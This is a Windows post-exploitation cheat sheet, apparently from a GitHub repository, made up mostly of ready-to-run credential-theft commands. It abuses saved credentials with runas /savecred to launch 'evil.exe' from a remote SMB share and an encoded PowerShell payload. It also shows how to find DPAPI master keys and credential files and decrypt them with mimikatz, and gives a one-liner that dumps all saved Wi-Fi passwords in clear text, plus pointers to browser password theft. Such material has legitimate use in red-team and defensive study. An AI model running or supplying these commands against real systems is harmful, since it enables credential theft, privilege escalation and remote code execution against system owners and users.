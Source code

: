#### LIST STORED CREDENTIALS
```powershell
# LIST
cmdkey /list
Currently stored credentials:
    Target: Domain:interactive=WORKGROUP\Administrator
    Type: Domain Password
    User: WORKGROUP\Administrator
# ABUSE WITH SMBSHARE
runas /savecred /user:WORKGROUP\Administrator "\\10.10.10.10\SHARE\evil.exe"
# ABUSE WITH COMMAND EXEC
runas /savecred /user:WORKGROUP\Administrator  "Powershell -EncodedCommand B64CMD"
```

---
#### DPAPI
```powershell
# DPAPI KEY
Get-ChildItem  C:\Users\USER\AppData\Roaming\Microsoft\Protect\
Get-ChildItem  C:\Users\USER\AppData\Local\Microsoft\Protect\
# MASTER PASSWORD
dir C:\Users\username\AppData\Local\Microsoft\Credentials\
dir C:\Users\username\AppData\Roaming\Microsoft\Credentials\
Get-ChildItem -Hidden C:\Users\username\AppData\Local\Microsoft\Credentials\
Get-ChildItem -Hidden C:\Users\username\AppData\Roaming\Microsoft\Credentials\
```
:information_source: You can use mimikatz module dpapi::masterkey with the appropiate arguments (/pvk or /rpc) to decrypt it.
:information_source: You can use mimikatz module dpapi::cred with the appropiate /masterkey to decrypt.

---
#### WIFI
```powershell
Get-ChildItem -Recurse -Force -Include *wifi*
#List saved Wifi using
netsh wlan show profile
#To get the clear-text password use
netsh wlan show profile <SSID> key=clear
#Oneliner to extract all wifi passwords
cls & echo. & for /f "tokens=4 delims=: " %a in ('netsh wlan show profiles ^| find "Profile "') do @echo off > nul & (netsh wlan show profiles name=%a key=clear | findstr "SSID Cipher Content" | find /v "Number" & echo.) & @echo on
```

---
#### BROWSER CREDS
```powershell
Mimikatz: dpapi::chrome
```
:information_source: sharpweb
- Google
- Chrome
- Mozilla
- Firefox
- Microsoft Internet Explorer/Edge

---